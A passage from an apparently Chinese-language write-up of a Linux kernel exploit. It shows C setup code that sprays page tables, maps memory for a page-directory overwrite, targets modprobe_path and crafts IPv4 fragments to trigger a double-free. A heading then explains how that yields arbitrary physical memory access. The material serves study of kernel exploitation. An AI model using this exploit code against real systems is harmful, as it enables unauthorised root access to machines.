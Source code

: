 ```c
	// 注意，有大小限制，因为注册VMA很耗内存
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++)
	{
		void *retv = mmap((void*)PTI_TO_VIRT(2, 0, i, 0, 0), 0x2000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);

		if (retv == MAP_FAILED)
		{
			perror("mmap");
			exit(EXIT_FAILURE);
		}
	}

// 0-3. 预分配 16000/512 个 PMD页，便于之后实际分配 16000 个PTE页
	// PTE_SPRAY_AMOUNT / 512 = PMD_SPRAY_AMOUNT: PMD contains 512 PTE children
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT / 512; i++)
		*(char*)PTI_TO_VIRT(2, i, 0, 0, 0) = 0x41;
	
// 0-4. 预注册2个PMD条目（位于同一PMD页，对应不同的PTE页），对应2个PTE条目  2*512*4096 = 0x400000
	_pmd_area = mmap((void*)PTI_TO_VIRT(1, 1, 0, 0, 0), 0x400000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	pmd_kernel_area = _pmd_area;
	pmd_data_area = _pmd_area + 0x200000;

	PRINTF_VERBOSE("[*] allocated VMAs for process:\n  - pte_area: ?\n  - _pmd_area: %p\n  - modprobe_path: '%s' @ %p\n", _pmd_area, modprobe_path, modprobe_path);
// 0-5. 创建5个socket: ip/udp client/udp server/tcp client/tcp server
	populate_sockets();

	set_ipfrag_time(1);

	// cause socket/networking-related objects to be allocated
	df_ip_header.ip_id = 0x1336;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 8 + 4000;
	df_ip_header.ip_off = ntohs((8 >> 3) | 0x2000);
	alloc_intermed_buf_hdr(32768 + 8, &df_ip_header);

	set_ipfrag_time(9999);

	printf("[*] waiting for the calm before the storm...\n");
	sleep(CONFIG_SEC_BEFORE_STORM);

    // ... (rest of the exploit)
}
```

#### 5-1-2. Double-Free

触发Double-Free需要用到IPv4网络代码和页分配器。触发Double-Free后，下一节才能使用脏页目录对任意物理内存页进行任意、无限读写。

##### （1）分配skb（干净的skb避免崩溃，udp包）
